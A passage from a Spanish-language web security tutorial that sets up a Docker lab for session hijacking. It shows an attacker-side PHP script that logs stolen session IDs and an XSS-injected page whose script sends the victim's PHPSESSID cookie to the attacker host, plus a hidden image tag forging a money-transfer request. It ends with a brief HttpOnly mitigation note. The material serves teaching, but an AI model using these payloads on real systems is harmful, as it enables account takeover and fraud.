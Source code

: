 ```
<?php
}
?>
```



## Robo de sesión

Creamos dos Dockers, uno como el atacante (evil) y otro como víctima (good)

En evil crearemos `robo-de-sesion.php`

```
<?php
$session_robada = $_GET['session_robada'] ?? "";
$session_robada .= "\n";
$fichero = 'sessions.txt';
// Abre el fichero para obtener el contenido existente
$actual = file_get_contents($fichero);
// Escribe el contenido al fichero
file_put_contents($fichero, $session_robada, FILE_APPEND);
```

y en good el atacante habrá conseguido introducir `hackeada.php`donde enviará la cookie de la víctima al atacante

```
<!DOCTYPE html>
<html lang="es">
<head>
<meta charset="utf-8">
</head>
<body>
    Esta es una página que ha sido hackeada mediante XSS.
Al acceder, envía la cookie de sesión al sitio http://evil.local 
o a http://127.0.0.1:8087/
<img src='http://127.0.0.1:8088/public_html/transfer.php?quantity=1000&user=juan'>

<script>
var c = document.cookie.replace(/(?:(?:^|.*;\s*)PHPSESSID\s*\=\s*([^;]*).*$)|^.*$/, "$1")
var myImage = new Image(1,1);
myImage.src = "http://127.0.0.1:8087/public_html/robar-session.php?session_robada=" + c;
</script>
</body>
</html>
```

Si la víctima después de validarse ejecuta `hackeada.php`

el atacante puede cambiar el valor de `PHPSESSID`en la página de `login.php`con la cookie robada y suplantar al usuario legítimo.

Para evitar este robo de sesión podemos utilizar la cabecera `HttpOnly`y asegurarnos de que solo se envien cookies sobre conexiones seguras.
